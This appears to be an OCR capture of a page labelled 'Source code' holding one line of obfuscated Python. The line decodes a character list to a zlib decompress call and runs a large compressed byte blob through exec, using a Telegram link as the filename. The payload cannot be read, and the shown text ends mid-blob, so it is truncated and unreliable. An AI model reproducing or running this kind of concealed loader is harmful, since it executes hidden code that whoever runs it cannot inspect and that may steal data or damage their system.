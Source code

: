 exec((lambda _____, ______ : ______(eval((lambda ____,__,_ :
____.join([_(___) for ___ in __]))('',[95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 122, 108, 105, 98, 34, 41, 46, 100, 101, 99, 111, 109, 112, 114, 101, 115, 115],chr))(_____),"<https://t.me/TT_RQ","exec"))(b'x\x9cT]\x07[\x15\xcb\xb6\xfc+\n\xcaA1L\x0e\x82\x08\x82\x18I\x8a 0\x08=\xa1\x15\x95\x1c\x04A~\xfb\xdbU\xab\x06\xef\xbb\xdf=\x1e\x0f\xec=\xa1{\x85Z\xb5Bw\x17]3:\xfa\xcb\xed\xd5\xad\xbb\xb3\x8d\xff=\xb2\x7fm\xdfy\xa6\xbf\x8cv\xe7\xee\xd7\xff\xfb\xcc#\xfc_\xbf\x7f\xf2\xe3`w\x7fts{t\xf0\xf7\x07w\xfc\xc11~zgw\x7f\xf0\xaf\xad\x07\x0fF\xff\xfb\xef\xd1f\x99>\xba\x83\x7f\xc2\x80\x7f\x94\x83?\xc2\x08\x7f\x84\xf8#\xc1\x1f\x99}\x02\xff$\xc1\xa3;1~\x18\xe13A\xa1\xef\x95\x85\xfd8\x19|)\xc9\xf0\xc3\x00\x7f\x0c\xfe\xab,\xfbk\xfd\xcf\xa5\x13\xfd2\x0cS\xfe\xb1\xf5\xa8\xf9~<x\x1e\xbe\xd1\x83GC\x13\xbf\x7f\xff~rypvzVwO\x9a\x83\xbd\xa7\xcd\xd3\xc3\xcb\xd3\xef\x07\xfb\xbfv}7\xf4h\xa8\x1b\xac\xcb\xd0\xe0\xf3\xf5\x7f\x17\xd5E\xd9\xac\xfc\xad.\x8a\xf2eu\x11\xa6\xd5ESW\x17uT\r>Q]8\x1fT\x17A1\xf8\xad\x1b\xfc\x13\x9dV\x17~\xf0\x89v\xf0\x9b\xa6\x1b\xfc6\xc0\x0f\xf5\x81bs\xf0\x93p\xf0\x93p\xf0Q7\xf8\x94\x1b\\\'\xc8\x97\x07\xd7/\x07\x7fI\x06\xbf\x18\xfcS\x0e>\xd0\x85\x83K\x0c~\xd9y]\xb7\xf851\xb8p>\xf8i;\xf8i>Y\xed\xff\xc4\x8d\x96\x06\x1fO\xed\x9f\xb0\xfc\xf7\x0f\xfe\xbb\xc5\xcf\x07\xf7\xabs{\xa2\xba\xbd\xba\xb2\x9f\xd6\xdd\xc1\xe0\xd6x\x84\x10\x8f?\xf8\xf5\xe0\xe1\xf2\xc1\xbf\xcbx\xf0\xf7\xc1\xcfK\x8f\x9f\xcf\x0cn\xeb\xf1\x8eOug\xf7\xc2\xbe\xdf\x0e\xae\xea\xf1\xb5\xc1\x036\xcd\xbd\xc1_p\x1b\xfc\xa0\xb5\xbf\xe3\xe9\xf1\xd5&\xb67\x08r\xbbB\x9d\xe1\xe6v\x81p\xf0e\xdf\xfc\x1d\xfc\xe9\x8a\xf1\xc1\xbb5\xd9\xe2\xe0K\xb9} \xc4\x97\x1a\\\xec\xdb\x15V!\xb2\xef\xe0\xdd\xeb\x1a\xcf\xb9\xf9*\x1a\xbcf\x91\xbcx2\xf8m`O\x8fujB\xfe\xbd\xc2\x8a\xe1!\xf1GS\xfd\x87\xcb\xe3\x17\x1f\x07\x9b\x18D\xf6\xf1.\xda9\x1e\x1d\xfc\x02\x9b\xe3g\xaeG\x06\x7f\x1d|\xbak\xaf^\r\x1eI\xcf\xd0\x0c\x9e\xa7\x88\x07\xef\xdf\xa4\x0fn\x06?\xc2\x07\x82\x17\xf8\x99]#L_\xd9_\\kKR\x97\xa7\xbf\xb0\x16\xa7Ol\x15\xf0\xbb\xc1[\x0f\x1e\xa0\xab\xb5w\xb1=\xa5\xc7ZC8\xda\x91\x91\xd7\xb6S\xe5\xe0\x8d\xcb\x16\xff<\x1f|\xab\xe1\xb3\xff\xb5\x1d\x81,`#\x03oW\xc2\xcab\xb5\xbb\xf2\x8f}\xa0\xc3\xa3Q\xf8\xb0\xd6\xc1\x0e\x16\x1e\xdb\x8d\x17\xe8>\xe0\x8f\xc1\x05\x12<\xf9Q/&\xd7ZT\xff\x1c/\x88\x05\xacu\xb3\xf8\xfcr\xf0i\xf7\x19\x8f\x95\xbf\xbd\xfc\xaa\xeb\xc4|\xc7c\x13\x7f<\xbf\xeb\x06\x8bR\x07y\x04\x11\xfa6\xb8e\x87%\xc3\xd5\xea\x93\xc1\x1d\xf4\xbc\xbe\x83\x88d&"\xf8\x08.\xc6\x97\x18,C\x99W\xb8"\xd6\t\xab\xd1i\xb7\x03\\\xd9\x05/\xe6\x97mi\x82<4\xd1\xf2\xcd\x1a~\xf2M\x8b)]\xa2\xd0\r^\xaasv\xa7.\x98\xb1\xe7m\xfd\xd9\xe0\x8f\xc1o\x1a~\x1a\x92\\\xac\xe33\xafx\xeb\x81\x16l^\xff=\x1c\xfc;\x1f\xb1w\xf7\xa5\xc95\x96\xb1\x91\x96Rd\xfd`5\xba\x94kQHC\x8a\x89\x831\xca\xd7\x85\x8b\xf4\xcd\xe4\xf8\xf0\xf5\xb5T\xb7\xb4+\xd8\x9d\xd7\xb6\x9e\r.TLe\xa6m\x14\xb5`\x11\x97|"\x83\xd1B\xc3l\x91\xea\xc1\xbf\xc3\xc6\x8cH\xdb\xa6\x17\xf6.X\xae\x0e\n\xe2\x0e\xf0\x83\xed\xc1mq5\xd8\x10\xae(\xb4\xb7_\x14\xbc[\xf7?\x7f\xd7\xcfO\xb1\\2$\xf8U\x10\r\x96\xc7%\x03A\t3\x88\xe2\xe0\xdfx\xd7\xf8\x95=\x037\xcc\xaf\x0e>\x97\rV\xaeMl\xa1KS\x8eJ[V\x87O\xf0\xdf\xd7g\xfd\x7f\x8e\xd8+\xfa\x1cK\xd7\xd8\xe7\xb1\xaf\xf8a\x97?\xd1nA\xc3\x03\x13\xea\xb0\x1d(\xec\xe9\xda\x01\xd4$\xa0\x9e\xe2A=\xa4\xa3u\xcfe1\xbb\xc1/\x9a@\xf7\xc8\xc6\x16\xf4\x8e\xf1\x9a}\x92\x165\xfc\xaa\xe5\xc6\xd2\x97&lA\xf7\xc44\x0b\xb2\x013\x8b\xf5*\x8b\xa7W\xd8\xfc1[\x86:\x9e\x1e\xbc}v\x17\x0b]\xba\x7f\xe6\xc7Q\xd3 J\xd8\xa0\x10\xd6NK\x1ac\x07\xae\xcc\xa2Aea^\xda\xbcI\xcc\xaea\xdf`\xf8k(\xb3\xbb\x80x\r~\x11\xda\x0b\xc0\x00\xe0-\x83\xd0\xec\x0c\xcc\x16\xde\xa0\xd1>\x06\xf9\xb0\x99\xd9&\x1d\xe8v\x88Oc\xc1\xbb\xfd\xc1\xb52\xdb\x85\xd0\xdd5c\xd4_\xa3\xc4\xf7\xf3\xec\xd8\x9e\x12&\x1d\xc2\x12\xf81\xdby,4,\x06\xbcK\x9d\xfc\xc1\xe2L\x8c\x0f\xee\xdc\x98\xce\xbb\xfcb\xb0\xf4\xd5`\xdf\xdah\x1c\xfa\xf7\x11+d6\x01\x12lJ<k\nR\x97\xb6y\xb4v\x90,h+v\xda\xb5_g\xe4\x1f \xf5\xc9\x85\xf9\x80\xb0\xdc\xc2\x87\xcfK\xfbOG\x05O%[\x91\x99|\xfa\x1e\xc9\x1b6\x12\x9e\xb0i~|\x86\xf0D\xce\x1e\xa6\xe8}\t\xef\xb53xds\x07\x99v\xc6\x8fOdX&I\x9f+!\x8a\xd0/\xbbE\xc0\xdb\xc0\xcf4w\xf1\xb7\x02&\xb6\xb0Wh\xf2\x81\xec\x86\x91YT8jl\x03\x1e\x14j\xdd\xc9\xf2\x05\xf5=\x89ph\x0fNk\x82\xdb`3\xc3r\xd1t\x086\x16;\xd3\xfaw\x90\x8a5\x08\xd2\xe4rk\x8bYB\r`\x89\xb1g]\xaf\x16\xad\x84\xba\x96<\x0c\x1e\xf9\xd4\xdey\xa09\xfb\xc3\xf6\r<\x86+(\xde\x95-\x12~:0#\xa7\xfb\xd0\x8e\xe2\x91\xd9\xdb\xb6\xf8\ty\x91\xef\r\xfc\xe4\xf2\x8at\x03\xef\x8e\xbf\xd4\xcd\x8f5\x19N|\x1e;\x99\xe8\xed\x8b\xd9\x81a\xf14\t\x85\xcccj\x1b\x8e\x8f\xfab\xfc\x89\xed-4\xa9\xe1>\xef@@\xdf\x0f~\x92\xc8b\xa6x\xd2\xd9l\xf0\xa3\xb2\xb6\xd5\x19(\xfb1\x14\xe8\xa7\xbcjg7w\x92\\.\x1e\x1e"\xfefk\xe4\xc3s:P\x9a\x05\xd3\xa4X\x86\x1dR\x11\xcc\x03\x87\x05\xcb=\x80\x08\xb0\xfdO\x81\xc6\xf6!f\xb0\x00]xq\x08\x084;v\xdfV\xd8V\xf5\x10\x86M7s\x10\x99\x1a\x9e\x80h\xce\xd9\x02\xb4\xba\t\x9e\t7u\xf1\xd1/l\xfe\xee\xf3w&d\xd8\xaa:<\x03&\xea\xfc\xa4\xbc\x96\x97\xce\xe7%\x94\xe1\x10\x88b\x12\xe2sn\xa8\xa0I